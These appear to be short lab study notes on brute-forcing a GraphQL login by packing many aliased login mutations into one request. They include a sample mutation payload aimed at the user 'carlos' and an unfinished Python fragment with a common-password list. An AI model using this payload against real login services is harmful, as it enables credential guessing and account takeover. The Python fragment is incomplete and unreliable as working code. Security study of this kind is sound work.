
##### Brute Forcing login graphQL
![[Pasted image 20240209115753.png]]
Create a huge mutation request like:
```
mutation { 
bruteforce0:login(input:{password: "123456", username: "carlos"}) { token success } 
bruteforce1:login(input:{password: "password", username: "carlos"}) { token success } 
... 
bruteforce99:login(input:{password: "12345678", username: "carlos"}) { token success } }
```
![[Pasted image 20240209125739.png]]
for example craft it like:
```python
poc = """
bruteforce: login(input: { password: "peter", username: "carlos" }) {
        success
        token
    }
"""
poc = ['bruteforce',': login(','input: {password:','"peter"',',username:"carlos"}) {','\n    token','\n    success','\n  }']
passwords = """123456
password
12345678
qwerty
123456789
12345
1234
111111
1234567
dragon
123123
baseball
abc123
football
monkey
letmein
shadow
master
666666
qwertyuiop
123321
mustang
1234567890
michael
654321
superman
1qaz2wsx
7777777
121212
000000
qazwsx
123qwe
killer
trustno1
jordan
jennifer
zxcvbnm
asdfgh
hunter
buster
soccer
```